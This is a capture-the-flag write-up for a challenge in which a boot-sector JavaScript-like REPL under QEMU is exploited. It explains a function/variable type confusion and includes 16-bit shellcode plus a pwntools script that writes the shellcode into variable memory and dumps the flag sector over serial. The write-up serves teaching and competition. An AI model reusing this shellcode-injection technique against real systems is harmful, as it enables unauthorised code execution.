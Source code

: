 # js in my bs

## Challenge

The challenge provides a QEMU setup that uses bootjs.bin as the disk image.
This image contains a miniature JavaScript-like read-eval-print loop in the MBR section, which talks to the machine's serial IO.

The flag is included in the disk image that is loaded on the remote, however, it is located at offset 0x200, which is immediately after the end of the sector loaded by the bios.

We can set variables using the `=` operator, which accepts a math expression as the value, but can only parse single digit tokens.

For example, to set a new variable `a` to 1, we can use:

```js
> a=1
```

For values larger than a single digit, we can use expressions such as:

```js
> b=8+8
```

A function `l` is preset to allow us to read variables:

```js
> l(a)
0001
```

## Solution

Functions and variables are stored as 3-byte elements in a contiguous array in a data section loaded at 0x7cda.

```
+------+---------+---------+
| name | value_l | value_h |
+------+---------+---------+
```

The program does not store whether data is a function or variable, thus the program is vulnerable to type-confusion between these data types.

For example, we can treat `l` as a variable and print its value as a number:

```js
> l(a)
7C7A
```

We can see that the value of `l` is a 16-bit address, which points to the function code in the MBR section.

Likewise, we can treat one of our variables as a function, calling the address stored in the variable.

As there is also no distinction between data and program memory, we can write shellcode into the variable data and call it as a function.

As the first byte of each 3-byte unit will be treated as the variable name, these bytes must be unique.
They must also be greater than the 0x39 (the ASCII value of '9') to avoid being treated as a number.
To satisfy these requirements, we insert NOP instructions to pad the 2-byte MOV instructions in our shellcode.

We can then write our shellcode into memory by using the first byte of a 3-byte unit as the name, and the other 2 bytes as a little-endian 16-bit number.

We also need to set a variable to store the address of the start of our shellcode, so we can call it and execute our shellcode.

With our shellcode, we use an interrupt to read the next sector from the disk, which contains the flag, then we output the contents of this sector to serial out.

## Exploit

### shellcode.s

```asm
[org 0x7c00]
[bits 16]

start:
    mov ah, 0x2                ; read sectors from drive
    nop
    mov al, 1                  ; sectors to read
    nop
    mov ch, 0                  ; cylinder idx
    nop
    mov dh, 0                  ; head idx
    nop
    mov cl, 2                  ; sector idx
    nop
    mov dl, 0x80               ; disk idx
    nop
    mov bx, 0x7e00             ; target pointer
    int 0x13                   ; interrupt
    mov dx, 0x3f8              ; serial out
    mov si, bx                 ; source buffer (start of flag)

loop:
    lodsb                      ; load byte from si into al, advance si
    out dx, al                 ; send al to serial out
    jmp loop                   ; repeat
```

### exploit.py

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

host = args.HOST or '54.93.211.13'
port = int(args.PORT or 10000)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return process(['debug.sh'] + argv, *a, **kw)
    else:
        return process(['run.sh'] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    hash_challenge = io.recvline().split()
    if hash_challenge[0] == b'hashcash' and hash_challenge[1] == b'-mb28':
        response = subprocess.run([
            'hashcash',
            '-mb28',
            hash_challenge[2].decode(),
        ], capture_output=True).stdout
        io.send(response)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

shellcode = open('shellcode.bin', 'rb').read()

def set_var(name, value):
    print(name, hex(value))
    io.sendafter(b'> ', name + b'=0' + b'+9' * (value // 9) + b'+' + str(value % 9).encode() + b'\n')
    io.recvline()

def write_3(x):
    x = x.ljust(3, b'\x00')
    set_var(x[0:1], u16(x[1:3]))

io = start()

shellcode_addr = 0x7ce0
set_var(b'a', shellcode_addr)

for i in range(0, len(shellcode), 3):
    write_3(shellcode[i:i+3])

io.sendafter(b'> ', b'a(0)')

io.recvuntil(b')')
print(io.recvuntil(b'}'))
```

## Flag

```
kalmar{this_would_be_a_nice_addon_to_all_efi_shells_right?}
```
